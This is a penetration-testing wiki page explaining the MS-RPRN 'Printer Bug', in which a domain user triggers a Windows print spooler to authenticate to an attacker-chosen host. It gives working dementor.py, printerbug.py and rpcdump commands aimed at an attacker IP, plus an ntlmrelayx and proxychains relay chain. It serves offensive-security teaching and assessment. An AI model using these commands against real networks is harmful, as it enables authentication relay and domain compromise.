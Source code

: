 # Printer Bug \(MS-RPRN abuse\)

## Theory

MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server. An attacker controlling a domain user/computer can, with an RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments \([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)\).

{% hint style="info" %}
The attacker needs a foothold on the domain \(i.e. compromised account\) for this attack to work since the coercition is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) \(Powershell\) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) \(Python\).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) \(Python\), [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) \(Python\), the adapted original .NET code \([here](https://github.com/leechristensen/SpoolSample)\).

This trigger leads to an outgoing traffic using SMB.

{% tabs %}
{% tab title="dementor" %}
Trigger the spooler service

```bash
dementor.py -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $ATTACKER_IP $TARGET
```
{% endtab %}

{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 MS-RPRN
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```text

```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../abusing-lm-and-ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy
{% endhint %}

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains dementor.py -d $DOMAIN -u $DOMAIN_USER $ATTACKER_IP $TARGET
```

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}



